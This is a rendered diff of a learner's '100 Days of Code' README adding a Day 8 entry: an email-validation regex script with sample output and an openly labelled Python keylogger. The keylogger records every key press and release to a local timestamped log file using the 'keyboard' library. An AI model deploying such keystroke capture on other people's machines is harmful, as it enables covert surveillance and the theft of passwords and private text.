

Before and after one commit to reyr3v4cud83guy/My100DaysOfCode, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -261,3 +263,77 @@ def game():
                 print("Rock smashes scissors! You lose.")
 
 game()
+
+DAY 8
+===============================
+### Author: ABDULLAHI AHMED OSMAN
+### Date: 2025-01-08
+### Description: This is the eighth day of the 100 Days of Code challenge.
+### The task is to create a program that can verify email address and Key Logger
+
+import re
+
+def verify_email(email):
+    """
+    Verifies if the given email address is valid.
+
+    Args:
+        email (str): The email address to verify.
+
+    Returns:
+        bool: True if the email address is valid, False otherwise.
+    """
+    email_regex = r"^[a-zA-Z0-9_.+-]+@[a-zA-Z0-9-]+\.[a-zA-Z0-9-.]+$"
+    if re.match(email_regex, email):
+        return True
+    else:
+        return False
+
+def main():
+    # Test the verify_email function
+    emails = ["test@example.com", "test.example.com", "test@.com"]
+    for email in emails:
+        print(f"Email: {email}, Valid: {verify_email(email)}")
+
+if __name__ == "__main__":
+    main()
+
+# Output:
+# Email: test@example.com, Valid: True
+# Email: test.example.com, Valid: False
+# Email: test@.com, Valid: False
+
+import keyboard
+import time
+import threading
+import logging
+import datetime
+import os
+import platform
+
+# Set up logging
+logging.basicConfig(filename='key_log.txt', level=logging.INFO, format='%(asctime)s: %(message)s')
+
+def on_key_press(event):
+    logging.info(f'Key pressed: {event.name}')
+
+def on_key_release(event):
+    logging.info(f'Key released: {event.name}')
+
+def main():
+    try:
+        keyboard.on_press(on_key_press)
+        keyboard.on_release(on_key_release)
+
+        # Keep the program running until manually stopped
+        while True:
+            time.sleep(1)
+    except KeyboardInterrupt:
+        print('Program stopped manually')
+    except Exception as e:
+        print(f'An error occurred: {e}')
+    finally:
+        keyboard.unhook_all()
+
+if __name__ == "__main__":
+    main()
```
Also changed, not shown: other parts of README.md (+2 -0 lines).
